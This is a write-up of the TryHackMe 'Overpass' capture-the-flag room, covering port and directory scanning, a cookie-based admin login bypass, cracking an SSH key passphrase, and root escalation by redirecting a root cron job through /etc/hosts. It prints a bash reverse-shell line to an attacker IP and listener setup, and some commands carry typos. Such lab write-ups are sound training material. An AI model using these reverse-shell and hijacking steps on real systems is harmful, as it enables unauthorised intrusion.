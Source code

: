 ```yaml
---
title: Tryhackme - Overpass
layout: post
categories:
- TryHackMe
tag:
- security,
- easy,
- cron,
- owasp top 10
image: "/assets/img/overpass.png"
image_alt: overpass
---
```


Overpass is easy room to get you started in CTF's.

## Recon
The first thing you will do is scan the target ip address to find open ports. We do it using **`Nmap`**.

```
$ nmap -sSV -v 10.8.81.166
```
![nmap](/assets/img/tryhackme/overpass/nmap.png)

As we see here, 2 ports are open. One is **`HTTP:80`** and the other is **`SSH:22`**. We can make a few guesses based on this. I think we should somehow find the necessary information for ssh connection from this site. And we have to get into the target machine using ssh. But this is just a guess for now.
Anyway, let's go to the website first and see what's up.

![homepage](/assets/img/tryhackme/overpass/homepage.png)

Overpass is a password manager. We saw 2 more pages on the main page, one "About Us" and the other "Downloads". Let's examine both.

### About Us
![aboutus](/assets/img/tryhackme/overpass/aboutus.png)

Here we see a few names that may be useful to us in the future.

### Download
![download](/assets/img/tryhackme/overpass/download.png)

We see two files here, one is the source code of overpass and the other is the script that runs this code.
We couldn't find much, let's look at the source codes of the pages.

![home](/assets/img/tryhackme/overpass/home_source.png)

This is really fun.
We couldn't find anything remarkable in the source code of the About Us and Downloads pages.

Let's do a gobuster scan to see if there are other pages on the site.
```
$ gobuster dir -u 10.10.79.124 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![aboutus](/assets/img/tryhackme/overpass/gobuster.png)

We found an interesting place **`/admin/`** page here, let's examine it.
I tried a few login attempts first, but it didn't work.

![aboutus](/assets/img/tryhackme/overpass/admin.png)

Let's take a look at the source code of the admin page.
Maybe we can brute force using the information here.

![aboutus](/assets/img/tryhackme/overpass/admin_id.png)

And there are several javascript files, let's examine them.

![aboutus](/assets/img/tryhackme/overpass/admin_file.png)

The **`main.js`** contains nothing but the hello world output.

![aboutus](/assets/img/tryhackme/overpass/main.png)

Let's examine **`login.js`** now.

![aboutus](/assets/img/tryhackme/overpass/login.png)

We found something here. A login function has been placed here. It says that if you enter wrong information, you will get incorrect credentials, but if it is entered correctly, cookie settings will be set as **`SessionToken and status0Cookie`**. Let's try to login using this cookie information.

![aboutus](/assets/img/tryhackme/overpass/settings.png)

After entering the information, we refresh the page and we are inside.
We come across an **`SSH key`**, but there is an article before it.

![aboutus](/assets/img/tryhackme/overpass/admin_on.png)

Paradox was annoyed that James kept forgetting the password. And as punishment, he wrote the password as SSH Key.

![aboutus](/assets/img/tryhackme/overpass/ssh.png)

Let's find james' SSH password.
To crack the password of an rsa key, we need to follow these steps.
We create **`id_rsa file using nano`**. Copy and paste the rsa private key information into it. Then we change the permission settings using **`chmod`** so that ssh can use it.
Then we use **`ssh2john`** to bring this ssh key in a way that joh can crack, and then we find the password using **`john`**.

```
$ nano id_rsa
$ chmod 600 id_rsa
$ ssh2john id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

And we find the password **`james13`**
Now we can connect to james using this information.

```
$ ssh -i id_rsa james@10.10.79.124
```

And we're inside

![aboutus](/assets/img/tryhackme/overpass/james.png)

Let's see what's in james' folder.

```
ls -la
```

![aboutus](/assets/img/tryhackme/overpass/ls.png)

There are a few files that caught our attention **`todo.txt, user.txt`**
**`user.txt : user flag`**

![aboutus](/assets/img/tryhackme/overpass/user_flag.png)

Now let's take a look at **`todo.txt`**.

![aboutus](/assets/img/tryhackme/overpass/todo.png)

Important things are being talked about here. James keeps a password around here, but he said he used his own password manager.
There was something he wanted to talk to Pardox about. He also says how the build script works automatically in the system.

I examined the files again using **`ls -la`** and there is another file called .overpass, and when I looked inside, I found something like this.

![aboutus](/assets/img/tryhackme/overpass/pass.png)

This must be the password that James mentioned in todo.txt, but we don't know how he encrypted it. But he told us they did it using their own password manager. So why don't we go back to the website and examine the source code of the overpass?
What I noticed when I reviewed the code is this.

![aboutus](/assets/img/tryhackme/overpass/source.png)

The algorithm they use according to the code they wrote is **`rotate-47`**

![aboutus](/assets/img/tryhackme/overpass/rot.png)

And here we found a password but I didn't understand where to put it.

But if we need to go back to todo.txt, James was talking about the continuous and automatic loading of the application there, why don't we look at the cronjob.

```
$ cat /etc/crontab
```

![aboutus](/assets/img/tryhackme/overpass/cron.png)

And here we get important information. As we can see, the root user automatically runs the file `overpass.thm/downloads/src/buildscript.sh` as **`cronjob`**.
In other words, a bash file is running automatically in the system, if we can change this file, we can place our own reverse shell.
I tried to open and change the file several times, but I couldn't do anything because it exceeded my authorization limits. But there was one thing I missed, overpass.thm is a hostname and if we manage to change this hostname and enter our own machine information, I can run my own buildscript.sh file.
For this I first check the contents of  **`/etc/hosts`**.

![aboutus](/assets/img/tryhackme/overpass/hosts.png)

Interestingly, James has the ability to modify this file.
Using my own machine ip, I change the overpass.thm line to**`"10.8.81.166 overpass.thm"`**
Then I will do the following in order on my own machine. I will create the /downloads/src/buildscript.sh file. And I will write revershell inside this file, then I will open an http.server just outside the downloads folder. At the same time, I will open a listener for nc using the same port as the port I entered in revershell. Then cronjab will connect to my machine and get the downoads/src/buildscript.sh file and then run it. The revershell inside it will also work and boom we'll go inside.

```
$ bash -i >& /dev/tcp/10.8.81.166/4444 >&1
```

```
$ mkdir downloads
$ cd downloads
$ mdir src
$ cd src
$ nano buildscript.sh
$ cd ../..
$ python3 -m http.server 80
```

```
$ nc -nlvp 4444
```
We are inside.

![aboutus](/assets/img/tryhackme/overpass/root.png)

And root flag .

![aboutus](/assets/img/tryhackme/overpass/root_flag.png)


It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.
